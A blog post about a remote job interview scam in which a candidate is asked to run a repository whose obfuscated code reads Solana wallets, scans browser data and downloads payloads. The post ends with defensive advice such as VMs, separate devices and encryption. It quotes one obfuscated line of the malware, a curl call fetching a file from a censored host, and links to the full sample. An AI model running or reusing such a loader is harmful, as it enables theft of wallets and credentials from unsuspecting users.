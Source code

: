 ```yaml
---
date: '2024-12-14T22:24:22-06:00'
title: 'You Could Lose Your Crypto In a Job Interview'
categories:
- opinions
coverImage: "images/tech-interview-hacking-obfuscated-code.jpg"
description: 'This is the story about a guy who was about to lose all his crypto and probably get hacked in a job interview for a remote position'
keyword: ''
keywords:
- 'crypto'
- 'interview'
- 'github'
- 'hacking'
- 'docker'
authors:
- 'Eduardo Zepeda'
---
```


The other day I was browsing Elon Musk's political propaganda machine, also known as X, and came across this gem of human shamelessness, an interviewer who nearly hacked one of his applicants.

## Running malware in job interviews.

The story goes like this: you're in need of a job, you're attending the interview remotely, [the recruiter asks you to clone a Github library](/en/using-github-to-evaluate-developers-is-naive/) to find bugs in the code, an average interview for a developer position, all looks normal up to this point. Of course you, in need of a good job, decide to go through with the process.

Well, this guy was smart enough to read the code to be executed before blindly executing his voluminous *node_modules* directory. And what did he find? A succulent and delicious minimized code, also obfuscated and with hints of putting your computer to mine cryptocurrencies. 

Our friend was like George, curious, so he reformated the code and found:

- Lines that appear to search and read the contents of Solana wallets.
- Scripts that scan browser directories.  
- [API calls to an IP address](/en/basic-characteristics-of-an-api-rest-api/), with no domain, some with no response at all and some that download obfuscated Python scripts (I guess it follows up the hacking process by installing a backdoor or some RAT).


If you want to ~~infect yourself~~ read the code, visit [the github repository](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), I take no responsibility for anything.

``` javascript
_0x42b722(“curl -Lo” + _0x157519 + “\” + “http://<censored>/pdown” + “\””, (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

## How do we avoid falling into these traps?

I don't plan to stand alone in the drama. This is about offering some practical solutions so that script kiddies don't make fun of you:

### **Use a different device**.

The most comfortable option, but also the most expensive, keep your devices separate, use one computer for work and technical interviews and another for your personal stuff, cryptocurrencies included. 

**Read the code, whenever possible**.

Recruiter sends you a script? Examine it carefully before you run it. Yes, I know, sometimes the code is too long or obfuscated, but if you have some experience, you can quickly examine the screen with your eyes and spot the most obvious red flags. Of course, you can't waste all afternoon on this either especially if you're in a real interview or value your time.

### **Use a virtual machine**.

Mount a virtual machine, either Virtual Box or Gnome Boxes, on Linux, or a [completely isolated Docker container](/en/the-most-useful-and-basic-docker-commands/), if you don't mind not having a graphical interface. 

Another option available, and my favorite: a live USB with the distribution of your choice (Debian, Fedora, or whatever you want), 

That way, the worst that can happen is that they infect your virtual machine and not your real computer with all your personal information. Just be careful with shared volumes! If you mount your hard drive in the VM, you're toast.

**Encrypt your sensitive information**.

Here comes in the classic advice from old-school IT veterans: **encrypt your important data**. If someone manages to access your collection of kitten memes, encrypt them. 

I don't plan to offer details because there is already too much on the internet, Google GPG or read the manual directly, if you are not that familiar with the terminal or don't care, there are tools like Kleopatra, which make cryptography more intuitive to use.

## Don't run arbitrary code on your personal machine.

Do you have better ideas to protect us from these practices? Drop your tips on social media and tag me. I look forward to adding your suggestions to the post. 

If you want to read the full story give Elon's blog a visit.... I mean X.

{{< twitter user="jibolaojo" id="1860605769856508209" >}}

Translated with DeepL.com (free version)